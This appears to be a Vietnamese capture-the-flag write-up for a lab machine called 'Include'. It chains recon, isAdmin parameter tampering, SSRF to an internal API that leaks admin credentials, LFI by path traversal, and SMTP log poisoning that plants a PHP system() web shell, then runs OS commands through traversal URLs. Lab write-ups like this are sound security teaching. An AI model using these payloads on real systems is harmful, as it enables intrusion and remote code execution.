# **Challenge - Include**
>You will find all the necessary tools to complete the challenge, like Nmap, PHP shells, and many more on the AttackBox.

>"Even if it's not accessible from the browser, can you still find a way to capture the flags and sneak into the secret admin panel?"

## **Recognize**
Ban đầu ta thực hiện recon web bằng **nmap**

```bash
nmap -T4 10.49.184.1 -Pn -sV
```



Ta nhận được các port `22`(*SSH*), `110`(*POP3*), `143` `993`(*IMAP*), `995`(*POP3*), `4000` `50000`(*HTTP*)

Ta tập trung trước vào 2 port `HTTP` vì nó là interface dễ khai thác 



Ta truy cập port `4000` ta có thể thực hiện đăng nhập vào bằng tài khoản `guest:guest`

Tiếp theo thực hiện truy cập port `50000`



Ta nhận được một trang web đăng nhập khác nhưng có vẻ ở đây dành cho người dùng nội bội trong công ty

Tiếp theo ta thực hiện tìm kiếm các thư mục ẩn trong 2 trang này bằng **gobuster**

```bash
sudo gobuster dir -u http://10.49.184.1:4000/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt --threads 100 -x log,txt,php
```



Ta nhận được các đường dẫn từ port `4000` như trên



Và đối với port `50000`

## **Foothood**
Ta thực hiện đăng nhập vào port `4000` bằng tài khoản `guest:guest`



Ta có thể thực hiện xem profile của người dùng và ta để ý có một thuộc tính của người dùng là `isAdmin: false`\
Bên dưới ta có phần `Recommend an Activity to guest`, có thể thêm `Activity` tùy ý cho người dùng





Ta thực hiện xem request trong Burp



Request được gửi đi bằng method `POST` với 2 tham số `activityType` và `activityName`, ta thử thực hiện thay đổi giá trị của `activityName=def` nhưng vẫn giữ `activityType=test123`



Kết quả là web thực hiện thay đổi giá trị của thuộc tính chứ không thêm thuộc tính mới, ta thực hiện đổi thành `isAdmin: true` với payload `activityType=isAdmin&activityName=true`



Kết quả là sau khi thay đổi giá trị của `isAdmin`, ta đã có giao diện của admin khi có thêm tab `API` và `Settting`



Khi truy cập `API`, ta thấy được đường dẫn của **internal API** và **response** của nó\



Tiếp tục truy cập Setting và ta thấy được web cho phép thực hiện thay đổi **background**\
Ta đổi thử một lần và thực hiện quan sát request



Ta thấy request được gửi đi với một URL, có thể web lấy ảnh từ 1 URL rồi thay đổi ảnh cũ bằng ảnh trong URL, đây là dấu hiệu của **SSRF**\
Kết hợp với những thông tin internal API đã có, ta thực hiện gửi requets đến `http://127.0.0.1:5000/getAllAdmins101099991` để lấy thông tin tài khoản của **admin**



Dữ liệu được trả về dưới dạng base64, ta thực hiện decode để lấy được thông tin của admin là `administrator:S$9$qk6d#**LQU`

Thực hiện lấy thông tin đăng nhập này và thực hiện đăng nhập vào port `50000`



## **RCE**


Thực hiện xem source code của dashboard, ta thấy được avatar của admin được lấy bằng đường dẫn `profile.php?img=profile.png`



Thực hiện truy cập, ta có thể thấy được web đã đọc nội dung của file `profile.png`, phần này có thể tồn tại lỗ hổng **LFI**

Ta thử thực hiện đọc file `/etc/passwd` bằng **Path Traversal**, ta sẽ dùng [danh sách này](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) để thực hiện tìm kiếm chuỗi có thể đọc file



Có một số payload thành công, điều này xác nhận rằng có lỗ hổng **LFI**

Ta có thể thực hiện đọc file `/var/log/mail.log`



Ở bước recon, ta có  tìm thấy một số port dành cho dịch vụ mail, ta thực hiện kết nối đến port `25` thực hiện gửi mail bằng `SMTP` bằng lệnh

```bash
nc 10.49.184.1 25
```

Vì ta đã biết được những user trong hệ thống, ta lợi dụng 2 user là `joshua` và `charles` để gửi mail với nội dung

```bash
EHLO joshua.local
MAIL FROM:<joshua@example.com>
RCPT TO:<charles@example.com>
DATA
Subject: test

hello
.
QUIT
```

Sau đó ta đọc file log, ta thấy rằng nội dung mail đã bị log vào file



Bây giờ ta sẽ thực hiện chèn lệnh `PHP` với mục đích RCE

```bash
EHLO joshua.local
MAIL FROM:<joshua@example.com>
RCPT TO:<charles@example.com>
DATA
Subject: <?php system($_GET['cmd']);echo 'Shell done !'; ?>

hello
.
QUIT
```



Kết quả là ta thấy được lệnh đã được thực thi, giờ ta cần thêm tham số vào URL để có thể thực hiện câu lệnh OS

```url
http://10.49.184.1:50000/profile.php?img=....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2fvar%2flog%2fmail.log&cmd=ls
```



Ta sẽ cần tìm file flag trong thư mục `/var/www/html` 

```url
http://10.49.184.1:50000/profile.php?img=....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2fvar%2flog%2fmail.log&cmd=find+/var/www/html+-type+f+-name+%22*.txt%22+-printf+%22%25f\n%22+2%3E/dev/null
```



Cuối cùng là ta đọc file này

```url
http://10.49.184.1:50000/profile.php?img=....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2f....%2f%2fvar%2flog%2fmail.log&cmd=cat+505eb0fb8a9f32853b4d955e1f9123ea.txt
```




